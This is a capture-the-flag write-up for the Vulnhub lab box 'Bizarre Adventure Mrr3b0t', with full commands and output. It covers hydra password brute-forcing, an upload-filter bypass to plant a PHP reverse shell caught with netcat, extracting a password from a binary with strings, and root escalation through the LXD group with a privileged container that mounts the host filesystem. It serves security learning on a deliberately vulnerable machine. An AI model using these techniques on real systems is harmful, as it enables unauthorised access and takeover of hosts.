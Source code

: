 ```yaml
---
title: Vulnhub - Bizarre Adventure Mrr3b0t
description: My writeup on Bizarre Adventure Mrr3b0t box.
categories:
 - vulnhub
tags: vulnhub hydra stego reverse lxd
---
```


![](https://images-na.ssl-images-amazon.com/images/I/71Z2amvT-tL._AC_SL1062_.jpg)

You can find the machine there > [Bizarre Adventure Mrr3b0t](https://www.vulnhub.com/entry/bizarre-adventure-mrr3b0t,561/){:target="_blank"}

## Summary

This box is really similar to Bizarre Adventure Sticky Fingers. We start by doing stego on an image to find a username & with it we brute force the login page. Bypassing the file upload form we get a reverse shell! Shell as exploiter was a basic reverse engineering on a binary. Shell as root we exploit LXD group. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.13
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 01:34 EEST
Nmap scan report for mrr3b0t.zte.com.cn (192.168.1.13)
Host is up (0.00031s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
5355/tcp open  llmnr
MAC Address: 08:00:27:77:A5:67 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.42 seconds
$ nmap -p 22,53,80,5355 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 01:34 EEST
Nmap scan report for mrr3b0t.zte.com.cn (192.168.1.13)
Host is up (0.00042s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 98:b7:f5:6b:0d:58:1d:7b:58:7d:1a:99:fb:b1:8f:04 (RSA)
|   256 66:b4:4b:40:e6:c9:76:93:31:aa:fc:ff:9a:40:a9:f9 (ECDSA)
|_  256 55:c6:b2:01:0f:16:1c:68:96:e2:bb:b1:fe:ff:59:c2 (ED25519)
53/tcp   open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Eskwela Template
5355/tcp open  llmnr?
```

We can see a static website, let's run `gobuster` on it.

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html                
/images (Status: 301)
/index.html (Status: 200)
/css (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/fonts (Status: 301)
/administrator (Status: 301)
```

`/administrator` has a login panel, `/images` has a `flag.txt.txt` file in with a message:

```
$ curl http://$ip/images/flag.txt.txt
Almost!

Did you notice something hidden?
```

Hmm, then i noticed that under `/images` there is a `hidden.png` image. Ugh stego stuff! Why!? :disappointed: Anyway i tried the basics like `strings` but nothing. It's `.png` so we can't run `steghide` etc, one option left that is [Zsteg](https://github.com/zed-0xff/zsteg){:target="_blank"}! 

You can install it by:

```
$ gem install zsteg
```

```
$ zsteg -a hidden.png 
b1,r,lsb,xy         .. file: old packed data
b1,rgb,lsb,xy       .. text: "Did you find the message? Take the Mrrobot user and break your password, just don't think too much!"
```

## Shell as www-data

We have a user! `mrrobot` let's fire up hydra! :fire:

```
$ hydra -l mrrobot -P /usr/share/wordlists/rockyou.txt $ip http-post-form "/administrator/index.php:username=mrrobot&pass=^PASS^:Login Failed"

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.1.13:80/administrator/index.php:username=mrrobot&pass=^PASS^:Login Failed
[80][http-post-form] host: 192.168.1.13   login: mrrobot   password: secret
```

We're in as `mrrobot:secret` & we can see an upload form:

![](https://i.imgur.com/Lw6pd9i.png)

If we try to upload a `.php` file we get an error message:

![](https://i.imgur.com/xCGkICy.png)

We can simply bypass that by upload a file like this `shell.jpg.php`, let's upload a php reverse shell and execute it.

```
$ curl http://$ip/administrator/shell.jpg.php
```

```
$ nc -lvp 5555              
listening on [any] 5555 ...

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@mrr3b0t:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as exploiter

Here i stuck for a while, was tricky!! Under `/var/www` we can see a `bf` directory, this directory has a 64bit ELF file in:

```
www-data@mrr3b0t:/var/www/bf$ file buffer
buffer: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d870ae3a0c4c68f57dede236b914138be4074732, not stripped
```

Let's do some basic reverse engineering, if we run `strings` we can see the password for user `exploiter`:

```
www-data@mrr3b0t:/var/www/bf$ strings buffer
...data..
 Digite a senha: 
MrR0b0t121
 Senha errada 
 Senha Correta 
Password@123
```

```
www-data@mrr3b0t:/var/www/bf$ su - exploiter
Password: Password@123

exploiter@mrr3b0t:~$ whoami;id 
exploiter
uid=1000(exploiter) gid=1000(exploiter) groups=1000(exploiter),24(cdrom),30(dip),46(plugdev),111(lxd),118(lpadmin),119(sambashare)
```

## Shell as root

Privesc to root is simple, user exploiter is in lxd group:

```
exploiter@mrr3b0t:~$ groups
exploiter cdrom dip plugdev lxd lpadmin sambashare
```

Let's build Alpine first on our system:

```
$ git clone https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 27, done.
remote: Total 27 (delta 0), reused 0 (delta 0), pack-reused 27
Unpacking objects: 100% (27/27), 15.98 KiB | 154.00 KiB/s, done.
$ cd lxd-alpine-builder 
$ ./build-alpine 
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Let's wget on target box now:

```
exploiter@mrr3b0t:/tmp$ wget -q 192.168.1.14/alpine-v3.12-x86_64-20200924_0216.tar.gz
```

Follow my steps:

```
exploiter@mrr3b0t:/tmp$ lxc image import alpine-v3.12-x86_64-20200924_0216.tar.gz --alias rootbox
Image imported with fingerprint: 0c06cdcf498d081a54c82e7673f9a4f480ddc5555d12d8625f0083ec9542adb5

exploiter@mrr3b0t:/tmp$ lxc init rootbox newprof -c security.privileged=true
Creating newprof

exploiter@mrr3b0t:/tmp$ lxc config device add newprof container disk source=/ path=/mnt recursive=true
Device container added to newprof

exploiter@mrr3b0t:/tmp$ lxc exec newprof /bin/sh
~ # whoami;id
root
uid=0(root) gid=0(root)
```

Let's read the flag:

```
/mnt/root # cat flag.txt.txt 
                 uuuuuuu
             uu$$$$$$$$$$$uu
          uu$$$$$$$$$$$$$$$$$uu
         u$$$$$$$$$$$$$$$$$$$$$u
        u$$$$$$$$$$$$$$$$$$$$$$$u
       u$$$$$$$$$$$$$$$$$$$$$$$$$u
       u$$$$$$$$$$$$$$$$$$$$$$$$$u
       u$$$$$$"   "$$$"   "$$$$$$u
       "$$$$"      u$u       $$$$"
        $$$u       u$u       u$$$
        $$$u      u$$$u      u$$$
         "$$$$uu$$$   $$$uu$$$$"
          "$$$$$$$"   "$$$$$$$"
            u$$$$$$$u$$$$$$$u
             u$"$"$"$"$"$"$u
  uuu        $$u$ $ $ $ $u$$       uuu
 u$$$$        $$$$$u$u$u$$$       u$$$$
  $$$$$uu      "$$$$$$$$$"     uu$$$$$$
u$$$$$$$$$$$uu    """""    uuuu$$$$$$$$$$
$$$$"""$$$$$$$$$$uuu   uu$$$$$$$$$"""$$$"
 """      ""$$$$$$$$$$$uu ""$"""
           uuuu ""$$$$$$$$$$uuu
  u$$$uuu$$$$$$$$$uu ""$$$$$$$$$$$uuu$$$
  $$$$$$$$$$""""           ""$$$$$$$$$$$"
   "$$$$$"                      ""$$$$""
     $$$"                         $$$$"

FLAG{3LEV4T0R_P3NT3ST}

Created by Joas Antonio
Linkedin:https://bit.ly/3ki1WBE
```

Awesome box! :smile:
